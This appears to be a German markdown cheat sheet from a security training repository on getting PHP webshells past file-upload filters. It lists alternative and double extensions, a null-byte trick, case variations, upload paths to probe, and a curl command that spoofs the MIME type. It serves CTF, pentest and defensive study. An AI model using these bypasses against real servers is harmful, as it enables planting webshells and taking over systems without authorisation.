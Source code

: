 # 🐚 PHP Webshell Upload Tricks & Bypasses



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Klassische Upload-Namen für Webshells](#klassische-upload-namen-für-webshells)
- [Tarnung als Bilddatei (Double Extensions)](#tarnung-als-bilddatei-double-extensions)
- [Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)](#groß-kleinschreibung-bypass-durch-case-insensitive-filter)
- [Weitere gebräuchliche alternative Erweiterungen](#weitere-gebräuchliche-alternative-erweiterungen)
- [Upload-Verzeichnisse testen](#upload-verzeichnisse-testen)
- [Nützliches Tool: Content-Disposition & MIME-Typ prüfen](#nützliches-tool-content-disposition--mime-typ-prüfen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Einleitung

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```



**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Siehe auch:

- [php_web_shell_usage.md](/03-web-security/angriffe/webshells/php_web_whell_usage.md)
- [php_rce_cheat_sheet.md](/03-web-security/angriffe/webshells/php_rce_cheat_sheet.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---